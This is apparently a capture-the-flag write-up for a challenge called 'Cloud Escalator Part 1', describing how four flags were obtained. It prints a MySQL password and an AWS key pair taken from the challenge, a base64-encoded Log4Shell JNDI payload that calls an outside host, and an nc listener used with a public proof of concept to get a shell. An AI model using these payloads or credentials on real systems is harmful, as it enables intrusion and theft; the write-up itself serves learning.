 # Cloud Escalator Part 1, 300 points

## Flag 1 - 25 points

I started by poking around the site for leads.

I found a `/login` page as well as a `/forgotpassword.html` page, and in the source code of this page we find:

> // Complete the connection to mysqldb escalator.c45luksaam7a.us-east-1.rds.amazonaws.com. Use credential allen:8%pZ-s^Z+P4d=h@P

So I tried to connect to the mysql db with the command `mysql -u allen -h escalator.c45luksaam7a.us-east-1.rds.amazonaws.com -p`

To navigate through the different db's, we need to do `show databases;` | `use 'db';` | `show tables;` | `show tables;` | `select * from 'table';`

And in the users db, we find the data table which contains :

**Flag 1: CTF{!_p@wn3d_db_4_fu9}**

## Flag 2 - 50 points

Digging in the db, we also find a key aws (`AKIAWSXCCGNYFS7NN2XU | m6zD41qMXR4KlcyjXAIxdYrDm0YczPIiyi1p9P0I`)

I used this [write up](https://github.com/piyagehi/CTF-Writeups/blob/main/2021-Space-Race/1-Locked-Out.md) to find the second flag.

I installed aws-client and was able to download the file `Logs.txt`.

In this one we have the second flag,

**Flag 2: CTF{S3eing_T3r0ugh_!t}**

## Flag 3 - 75 points

In the mysql db, there was also an openssh private key in the git table, and there is mention of a github repository in `Logs.txt` (github.com/cloudhopper-sec/app.git).

So I used [this tutorial](https://superuser.com/questions/232373/how-to-tell-git-which-private-key-to-use) to clone a github repository while using an openssh private key.

`git clone git@github.com:cloudhopper-sec/app.git`

And then I searched in the files for the flag.

Here are two unassigned variables in the CookieHandler.java file:

![](./1.png)

So I said to myself that they were assigned in a previous commit.

(to list all the commits, `git log` and to switch from one commit to another, `git checkout 'commit hash'`)

And if you look through the previous commits, you will find :

![](./2.png)

Tada! We can then connect to the site to get our flag:

![](./3.png)

**Flag 3: CTF{Y0u_G0t_A_l3ak}**

## Flag 4 - 150 points

And this is where the problems start. 

![](./4.png)

This is the log4j java library. If you don't know it, you should know that thanks to it an attacker is able to get a shell without too much difficulty.

For that, the user's input must be read by this library. The only place where this is the case in all these files is here:

![](./5.png)

On the `profile` page (accessible when logged in), the program checks if there is a debug cookie and if so, reads its content in base64.

I started by testing the vulnerability with the [log4shell.tools](https://log4shell.tools) site.

My test exploit:

`${jndi:ldap://e61de143-90b5-4a8d-afb5-eea3c5b75db9.dns.log4shell.tools:12345/e61de143-90b5-4a8d-afb5-eea3c5b75db9}`

Into base 64:

`JHtqbmRpOmxkYXA6Ly9lNjFkZTE0My05MGI1LTRhOGQtYWZiNS1lZWEzYzViNzVkYjkuZG5zLmxvZzRzaGVsbC50b29sczoxMjM0NS9lNjFkZTE0My05MGI1LTRhOGQtYWZiNS1lZWEzYzViNzVkYjl9`

Into 'debug' cookie :

![](./6.png)

The site detects a request, which makes it a Log4Shell vulnerability discovery!

So I used this fantastic [tool](https://github.com/kozmer/log4j-shell-poc), ran an `nc -lnvp 9001` and boom!

We get a shell !

![](./7.png)

so I did :

`ls /`

`ls /root`

`cat /root/flag`

![](./8.png)

**Flag 4: CTF{H3aT_th3_L0GF0rg3}**

Thanks for reading!